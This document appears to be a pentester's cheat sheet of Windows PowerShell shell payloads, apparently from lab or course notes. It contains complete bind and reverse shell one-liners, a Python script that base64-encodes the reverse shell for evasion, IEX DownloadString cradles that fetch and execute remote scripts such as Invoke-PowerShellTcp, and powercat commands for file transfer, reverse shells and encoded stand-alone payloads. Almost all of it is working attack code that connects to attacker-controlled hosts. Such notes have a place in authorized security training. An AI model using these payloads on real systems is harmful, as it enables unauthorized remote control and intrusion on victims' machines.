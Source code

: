             Bind Shell:  powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
    	Encoded Method:  $client = New-Object System.Net.Sockets.TCPClient('192.168.119.140',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
	    		Convert:  iconv -f ASCII -t UTF-16LE powershellcmd.txt | base64 | tr -d "\n"
			Run:  powershell.exe -EncodedCommand JABjAGwAaQ...
		Encoded One-liner Generator:
			python -c $'import base64; IP = "10.10.10.19"; PORT = "4444"; payload = \'$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\' % (IP, int(PORT)); print("powershell -e " + base64.b64encode(payload.encode("utf16")[2:]).decode());'

    Powershell Scripts:
        cmd /c echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.119.186/mini-reverse.ps1') | powershell -noprofile -
        cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.19/shell.ps1')
        c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://192.168.119.186:80/Invoke-PowerShellTcp.ps1')
            Put this at end of the file first:   Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.186 -Port 4445
            Or try: powershell -c ...
        powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.3 -Port 4444
        Mini-reverse.ps1:  https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5
        Nishang:  wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
    Other Options:  file transfer nc.exe, then use it
    Powercat Methods:
        To enable scripts:   Set-ExecutionPolicy Unrestricted  (run as admin)
        File transfer/download:   powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
        Powercat=PS version of netcat
            1. download in kali with apt install powercat to: /usr/share/windows-resources/powercat
            2. use PS file transfer method^^^ to send it to windows victim
            3. on windows machine:
                . .\powercat.ps1
                or, if connected to internet:    iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
                run it: powercat -h
            File transfer:
                linux listener:  sudo nc -lnvp 443 > receiving_powercat.ps1
                windows sender:  powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
            Reverse shell:
                powercat -c 10.11.0.4 -p 443 -e cmd.exe
            Bind shell:
                powercat -l -p 443 -e cmd.exe
                nc 10.11.0.22 443
            Stand-alone payloads, ex. reverse shell:  powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1
                encode for better success:  powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
                    run with: powershell.exe -E [encoded string contents of ps1 file]
